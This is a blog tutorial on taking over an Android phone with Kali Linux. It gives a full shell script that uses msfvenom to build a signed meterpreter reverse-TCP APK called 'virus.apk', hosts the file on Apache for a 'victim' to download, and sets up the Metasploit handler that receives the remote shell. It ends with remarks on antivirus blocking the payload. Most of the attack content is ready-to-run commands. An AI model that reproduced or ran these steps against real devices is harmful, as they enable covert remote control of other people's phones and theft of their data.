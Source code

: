 +++ 
date = "2021-06-03"
title = "Hack an Android device with MSFvenom and Kali Linux"
slug = "Hack an Android device with MSFvenom and Kali Linux"
tags = []
categories = []
series = []
authors = ["Davide Dolce"]
+++

There are different ways and tools to hack an Android device, in this post, I will focus on **MSFvenom** to generate an APK which will be installed on the target device and the **Metasploit console** to set up a listener which will be used to interact with the device through the APK installed. Keep in mind that the payload used is not going to work with every Android version, mostly with the recent ones. The main purpose is to show how create a payload and setup a listener, after that we just need to create a server where the victim will download the virus. I found many other tutorials on Google about this topic but they are extremely old and they don't even tell you the Kali version used. You might think that is not important, but when I was looking to learn how to use MSFvenom, many parameters used were not working. Here is a simple example:

```sh
$ msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4444 R > virus.apk
```

So why this is wrong in the first place ? If we paste this command in our terminal, we get this error:

```sh
Error: No options
```

As you can see something is not correct, more specifically "**R**" is not recognized as a parameter, technically this should create our APK as an output file, but if we check the official documentation on the [Offensive Security website](https://www.offensive-security.com/metasploit-unleashed/msfvenom/), we can clearly see that the correct parameter to use is "**-o**":

!["msfvenom-commands"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/msfvenom-commands.png)

This is just a simple tip to take these tutorials as they are right now, because after one year they could already be outdated, even this tutorial created by me of course. If something is not working, check the [documentation](https://www.offensive-security.com/metasploit-unleashed/).

# Requirements

It should be obvious but these are the tools required:

- [Kali Linux](https://www.kali.org/get-kali/) (the version used is **2021.1**)
- An Android device (if you do not have an Android phone, use a VM or an emulator like [Bluestacks](https://www.bluestacks.com/))

You have already installed Kali Linux but you don't remember the correct version ? No problem, use this command in the terminal:

```sh
$ lsb_release -a
```

And you should get the following output:

```sh
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
```

# Create the payload

Instead of typing 7 different commands in the terminal one by one, we can simply create a shell script to do the job. Open the terminal and use the following command to create a file:

```sh
$ touch createThePayload.sh
```

Make the script created an executable with:

```sh
$ chmod +x createThePayload.sh
```
Copy and paste the following code (of course you have to set your IP and a port like **4444**):

```sh
#!/bin/sh
 
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o virus.apk
 
keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
 
sudo apt-get install default-jdk -y
 
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore virus.apk hacked
 
jarsigner -verify -verbose -certs virus.apk
 
sudo apt-get install zipalign -y
 
zipalign -v 4 virus.apk virus_signed.apk
```

Type **./createThePayload.sh** and hit enter to execute the script, check the output in the terminal to see if everything is correct.

## A quick explanation about the commands used

With **MSFvenom** we set the payload, the host which is our IP, the port and the output as "**virus.apk**". 

The **keytool** command is a key and certificate management utility. We set the keystore file to generate, an alias like **hacked** but you can use what you want just keep in mind this alias when you are using the **jarsigner** command, the algorithm like RSA, the key size, the validity. 

We have to install two packages, **default-jdk** to use the jarsigner in order to sign and verify a Java Archive, **zipalign** which is an archive alignment tool that provides important optimization to Android application (.apk) files. We set the parameter "**-y**" to automatically answer with "yes" to the prompt in the terminal. We need to sign a certificate because Android mobile devices are not allowed to install apps without the appropriately signed certificate. Android devices only install signed .apk files.

# Setup the server

Now to download the APK on a target machine, we could use a server with **Apache**, from here we just need to go the correct url, which is something like "**192.168.1.2/virus_signed.apk**". In order to move the APK created by the script in "**/var/www/html**", we need root permissions. Besides using a command like:

```sh
$ sudo virus_signed.apk /var/www/html/virus_signed.apk
```

You could also use the following command when you know you will be running various commands that need root access and don't want to run each of them with sudo:

```sh
$ sudo -i
```

Check if the **apache2** service is running with:

```sh
$ service apache2 status
```

If you get the following output:

```sh
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: https://httpd.apache.org/docs/2.4/
```

Start the service with:

```sh
$ sudo service apache2 start
```

If we open Firefox and type the IP of our machine (you can get the IP with the terminal by typing **ifconfig**), we get the Debian Page:

!["it-works"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/it-works.png)

And if we search our apk file in the website directory, we can download it:

!["download-apk"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/download-apk.png)

# Setup the listener

And now we have to set our listener with the **msfconsole**, we set the exploit, the payload and the host. The port is already set as 4444 but you change it. After that we will run it and we will download the apk on a mobile device or an emulator, in my case I used my phone. Follow these steps to set the listener:

1. Start the **msfconsole**:

```sh
$ msfconsole
```

2. When the console is ready, type this command (it should be obvious but don't copy "**msf >**" in the terminal):

```sh
msf > use exploit/multi/handler
```

3. Set the host:

```sh
msf > set lhost TypeYourIPHere
```

4. Set the payload:

```sh
msf > set payload android/meterpreter/reverse_tcp
```

5. Run the exploit:

```sh
msf > run
```

Download the apk on the phone, you need to make sure that your Kali machine and your Android device are on the same network.

# Let's test some commands

Some commands will not work, but the main purpose of this video is to show how to make this stuff work, you can always change the payload or even make your own payload. Here is a quick demo:

{{< rawhtml >}}
<style>
.video-container{
width: 100%;
max-width: 800px;
margin: 0 auto; 
}
.video-responsive{
    overflow:hidden;
    padding-bottom:56.25%;
    position:relative;
    height:0;
}
.video-responsive iframe{
    left:0;
    top:0;
    height:100%;
    width:100%;
    position:absolute;
}
</style>
<div class="video-container">
  <div class="video-responsive">
<iframe src="https://player.vimeo.com/video/559419552" width="700" height="564" frameborder="0" allow="autoplay; fullscreen" allowfullscreen></iframe>
  </div>
</div>
{{< /rawhtml >}}

# Conclusions

With this post you should be able to create a payload for Android, setup a server and a listener to make everything work perfectly. As you can see in the demo, the antivirus is preventing us from installing the APK, in some cases it can also close the connection to our Kali machine. There are other cases where the connection will be closed, unfortunately there isn't a single solution so you will need to try different approaches. Try to check if the architecture used to create the APK is the same used by Android and of course if the antivirus is preventing the payload to work correctly.
